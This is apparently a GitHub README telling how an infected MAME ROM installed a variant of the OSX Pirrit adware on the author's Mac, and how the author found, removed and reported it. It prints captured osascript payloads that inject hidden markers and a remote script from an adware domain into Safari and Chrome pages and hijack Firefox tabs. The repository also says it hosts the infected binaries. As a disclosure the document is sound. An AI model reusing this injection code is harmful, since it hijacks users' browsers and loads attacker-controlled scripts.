 Warning
=======

This repository contains binaries that are infected with the OSX Pirrit malware.

Backstory
=========

Recently I've been volunteering some of my free time to help children learn to program software and tinker with electronics and I thought it might be neat for the kids to build an old school arcade machine. As part of my initial research into this I had compiled MAME on my new MacBook and was searching for some ROMs to try out. The first ROM that I downloaded just happened to be infected with some nasty Malware...

If you're curious, the ROM was for [Galaxian](https://en.wikipedia.org/wiki/Galaxian) and [here is/was the actual download link](http://www.freeroms.com/dl_roms/rom_download.php?title=galaxian_midway&system=MAME&game_id=5674). 

Now at this point I should mention that from time-to-time I can be quite a careless individual. The ROM in question was packaged such that upon execution I was immediately asked to enter my root password. Stupid me complied without thinking twice. It was late. I was tired. And quite frankly my fingers were typing in auto-pilot mode at this point. My bad.

Almost immediately I knew that I had f**ked up.

Suddenly, some shadey "software services" appeared on my laptop and Safari started behaving oddly. Convinced that I'd been compromised by "something" I immediately downloaded ESET Cyber Security for Mac and ran a scan. 

Nothing.... My MacBook appeared clean. I was not convinced.

I checked my running processes and one in particular stood out. It looked like a whole bunch of javascript code passed as an argument to "/usr/bin/osascript".

```
  501   514   509   0 12:56pm ??         0:11.84 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU"^M\012^M\012repeat^M\012«event XFdrIjct» {} ^M\012end repeat^M\012^M\012^M\012on «event XFdrIjct» {}^M\012delay 0.5^M\012try^M\012if is_Safari_running() then^M\012tell application "Safari" ^M\012tell application "Safari" to set page_source to do JavaScript "document.body.innerHTML;" in current tab of first window ^M\012if page_source does not contain _pid then^M\012set theURL to URL of current tab of first window^M\012if theURL is not equal to "about:blank" then^M\012tell application "Safari" to do JavaScript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" in current tab of first window ^M\012tell application "Safari" to do JavaScript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);" in current tab of first window^M\012end if ^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Safari_running() ^M\012tell application "System Events" to (name of processes) contains "Safari"^M\012end is_Safari_running
  501   516   509   0 12:56pm ??         0:01.87 /usr/bin/osascript -e global delayTime^M\012set delayTime to 99999999^M\012global newTabUrl^M\012set newTabUrl to "'http://google.com'"^M\012global currentUrl^M\012set currentUrl to ""^M\012global previousUrl^M\012set previousUrl to ""^M\012global newTabWithPrev^M\012set newTabWithPrev to ""^M\012^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {}^M\012delay (delayTime * 60)^M\012try^M\012if is_Firefox_running() then^M\012tell application "Firefox" to activate^M\012tell application "System Events"^M\012keystroke "l" using command down^M\012keystroke "c" using command down^M\012delay(1)^M\012end tell^M\012set currentUrl to the clipboard^M\012^M\012if currentUrl is not equal to previousUrl then^M\012set newTabUrlWithPrev to newTabUrl^M\012set newTabUrlWithPrev to replace_chars(newTabUrlWithPrev, "[CONTEXT_URL]", currentUrl)^M\012tell application "Firefox"^M\012open location newTabUrlWithPrev^M\012end tell^M\012set previousUrl to newTabUrlWithPrev^M\012end if^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Firefox_running()^M\012tell application "System Events" to (name of processes) contains "firefox"^M\012end is_Firefox_running^M\012^M\012on replace_chars(this_text, search_string, replacement_string)^M\012set AppleScript's text item delimiters to the search_string^M\012set the item_list to every text item of this_text^M\012set AppleScript's text item delimiters to the replacement_string^M\012set this_text to the item_list as string^M\012set AppleScript's text item delimiters to ""^M\012return this_text^M\012end replace_chars
  501 66630   509   0  7:16pm ??         0:00.04 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU" ^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {} ^M\012delay 0.5^M\012try^M\012if is_Chrome_running() then^M\012tell application "Google Chrome" to tell active tab of window 1^M\012set sourceHtml to execute javascript "document.getElementsByTagName('html')[0].innerHTML"^M\012if sourceHtml does not contain _pid then^M\012tell application "Google Chrome" to execute front window's active tab javascript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" ^M\012tell application "Google Chrome" to execute front window's active tab javascript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);"^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Chrome_running() ^M\012tell application "System Events" to (name of processes) contains "Google Chrome"^M\012end is_Chrome_running
  501 66632 41100   0  7:16pm ttys000    0:00.00 grep osa
```

What in the hell is osascript? A quick google search revealed it to be part of the [Apple Open Scripting Architecture](https://developer.apple.com/library/content/documentation/AppleScript/Conceptual/AppleScriptX/Concepts/osa.html). 

A closer look and I could see that something else was being "bootstrapped" from the the domain aa9bd78f328a6a41279d0fad0a88df1901.com. Looks legit right?....

So I run a wget on the full URL and inspect the result which [you can see here](../blob/master/malicious.js). And there it was. Shitty adware.

I run some "kill -9" commands on the osascript processes but they just keep coming back. O.K. what's kicking THEM off? I check the PPID on the process and reveal it to be "/Library/research/research". I back him up ([downloadable here]((../blob/master/research.do.not.execute)) so I can take a closer look later -- then I delete it from its current location. I kill the process and all of the "osascript" child processes, which don't respawn. A quick cleanup of some shady .plist files and I'm satisfied that I've managed to get rid of it.

Why didn't AV pick it up?
=========================

So this I didn't expect. Surely this malware has been classified by now? So I post a question to [/r/malware](https://redd.it/5ea9bd) and shortly later I get a response from Cyber Security Researcher [Amit Serper](https://twitter.com/0xAmit) of [Cybereason](http://cybereason.com). Amit explains that the malware I'd encountered is a variant of OSX Pirrit which he initially discovered and analysed earlier in the year. [Here is that analysis](http://go.cybereason.com/rs/996-YZT-709/images/Cybereason-Lab-Analysis-OSX-Pirrit-4-6-16.pdf) if you're interested.

So this is a new varient of the same Malware OSX Pirrit and my AV simply didn't have a signature for it yet. Being the nice guy that I am, I follow ESET's instructions on [how to report a suspicious file](http://support.eset.com/kb141/#SubmitFile). Within hours I get a reply thanking me for my submission and that a signature update would be pushed out shortly. Which it was. In fact, the turn-around time was literally *just hours*.
